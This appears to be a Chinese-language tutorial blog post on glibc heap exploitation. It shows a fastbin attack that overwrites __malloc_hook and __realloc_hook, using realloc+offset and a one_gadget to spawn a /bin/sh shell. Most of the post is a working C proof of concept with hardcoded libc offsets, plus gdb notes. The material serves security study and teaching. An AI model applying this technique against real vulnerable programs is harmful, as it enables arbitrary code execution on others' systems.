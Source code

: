 例如修改 fd 指针指向 __realloc_hook 前合适的偏移（通常是 __malloc_hook 往前 0x23 的偏移），两次 malloc(0x60) 申请出该地址的 fake chunk 实现对 __realloc_hook 和 __malloc_hook 的控制。

由于 one_gadget 可能因栈结构不满足条件而失效，可以通过修改 __malloc_hook 为 realloc+偏移 ，修改 __realloc_hook 为 one_gadget 改变栈结构来获取 shell 。
除了 realloc + 偏移外，还可以通过触发 malloc 报错执行 malloc 来改变栈结构。

### poc

```c

#include <stddef.h>
#include <stdlib.h>
#include <stdio.h>

int main()
{

    puts("relocation puts");
    size_t libc_addr=puts-0x67870;
    printf("puts_addr %p\n",puts);
    printf("libc_addr %p\n",libc_addr);
    size_t* malloc_hook=libc_addr+0x39bb10;
    size_t* realloc_hook=libc_addr+0x39bb10-0x8;
    size_t* malloc_hook_23=libc_addr+0x39bb10-0x23;//0xfff7736260000000	0x000000000000007f
    size_t* malloc_hook_23_data=libc_addr+0x39bb10-0x23+0x10;
    size_t* onegadget=libc_addr+0x3f3e6;
    size_t* __libc_realloc_off_addr=libc_addr+0x78d00+0x6;
// 0xd5c07 execve("/bin/sh", rsp+0x70, environ)
// constraints:
//   [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv



    printf("&malloc_hook-0x23 %p\n",malloc_hook_23);
    printf("&malloc_hook-0x23+0x10 %p\n",malloc_hook_23_data);
    size_t* chunk=malloc(0x60);
    malloc(0x60); // next not top
    free(chunk);
    chunk[0]=malloc_hook_23;
    malloc(0x60);
    size_t* dest_chunk=malloc(0x60);
    printf("dest_chunk %p\n",dest_chunk);
    *(size_t*)((char*)dest_chunk+3+8)=onegadget;
    *(size_t*)((char*)dest_chunk+3+8+8)=__libc_realloc_off_addr;
     printf("__libc_realloc_off_addr %p\n",__libc_realloc_off_addr);
    malloc(0x10);
}
```

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/dee2d9de213c4695afc4e140713235f7.png)
```bash
b*__libc_realloc+499
```
跳转位置前有pop
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/929bf83f65a74970bbfa84b847951649.png)
此时的栈，~~所以我们选择能够pop三次再跳转的指令就行~~ ，如果直接从跳转之前的那些pop不行，因为rax还没设置跳转地址，所以还是从刚开始来，那就少push三次的位置就行了
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/3018dce0a3a44f5594dbc83f30063ee4.png)
成功
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/d89d6c79996747949e49f0c32a3ef7e1.png)
